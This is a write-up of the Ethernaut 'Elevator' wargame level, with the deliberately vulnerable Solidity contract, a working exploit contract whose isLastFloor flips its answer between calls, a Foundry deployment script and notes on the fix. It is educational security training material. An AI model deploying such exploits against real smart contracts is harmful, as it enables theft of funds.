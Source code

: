 # Level 11 - Elevator ⏺⏺

{% embed url="https://ethernaut.openzeppelin.com/level/11" %}

### Level Setup

{% hint style="info" %}
This elevator won't let you reach the top of your building. Right?

**Things that might help:**

* Sometimes solidity is not good at keeping promises.
* This `Elevator` expects to be used from a `Building`.
{% endhint %}

### Level Contract

{% embed url="https://github.com/OpenZeppelin/ethernaut/blob/a89c8f7832258655c09fde16e6602c78e5e99dbd/contracts/src/levels/Elevator.sol" %}

{% code lineNumbers="true" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
    function isLastFloor(uint256) external returns (bool);
}

contract Elevator {
    bool public top;
    uint256 public floor;

    function goTo(uint256 _floor) public {
        Building building = Building(msg.sender);

        if (!building.isLastFloor(_floor)) {
            floor = _floor;
            top = building.isLastFloor(floor);
        }
    }
}
```
{% endcode %}

### Exploit

`top` must first return `false` when called, then `true` the next time. The interface for `Building` is set to `msg.sender`.&#x20;

1. Create a contract that exploits this by implementing a function `isLastFloor` that sets `top` to `true`.

{% tabs %}
{% tab title="Anvil" %}
```bash
make anvil-exploit-level-11

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}

{% tab title="Holesky" %}
```bash
make holesky-exploit-level-11

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="Exploit Contract" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/main/src/Level11.sol" %}

{% code title="src/Level1.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Script, console} from "forge-std/Script.sol";

// ================================================================
// │                        LEVEL 11 - ELEVATOR                   │
// ================================================================
interface IElevator {
    function goTo(uint256 _floor) external;
}

contract Building {
    IElevator targetContract;
    bool public last = true;

    constructor(address _targetContractAddress) payable {
        targetContract = IElevator(_targetContractAddress);
    }

    function isLastFloor(uint256 _floor) public returns (bool) {
        if (_floor > 0) {
            last = !last;
            return last;
        } else {
            revert("Invalid floor");
        }
    }

    function attack() public {
        targetContract.goTo(1);
    }
}
```
{% endcode %}
{% endtab %}

{% tab title="Exploit Deployment Script" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/main/script/Level11.s.sol" %}

{% code title="script/Level11.s.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Script, console} from "forge-std/Script.sol";
import {HelperFunctions} from "script/HelperFunctions.s.sol";
import {Building} from "../src/Level11.sol";

// ================================================================
// │                        LEVEL 11 - ELEVATOR                   │
// ================================================================
contract Exploit is Script, HelperFunctions {
    function run() public {
        address targetContractAddress = getInstanceAddress();

        vm.startBroadcast();
        Building building = new Building(targetContractAddress);
        building.attack();
        vm.stopBroadcast();
    }
}
```
{% endcode %}
{% endtab %}
{% endtabs %}

2. Submit instance... 🥳

### Completion Message

{% hint style="info" %}
You can use the `view` function modifier on an interface in order to prevent state modifications. The `pure` modifier also prevents functions from modifying the state. Make sure you read [Solidity's documentation](http://solidity.readthedocs.io/en/develop/contracts.html#view-functions) and learn its caveats.

An alternative way to solve this level is to build a view function which returns different results depends on input data but don't modify state, e.g. `gasleft()`.
{% endhint %}

### Notes

* The function `isLastFloor` is called twice, with the returned value changing for the same input as the state is changed.
* If the `isLastFloor` had been restricted to view, then this attack wouldn't be possible (unless it was calling a library, which [doesn't have runtime checks](https://docs.soliditylang.org/en/develop/contracts.html#view-functions) to make sure it doesn't modify the state when it says it's view)

{% embed url="https://github.com/nvnx7/ethernaut-openzeppelin-hacks/blob/e936301859334383d568a614084917100319205e/level_11_Building.md" %}
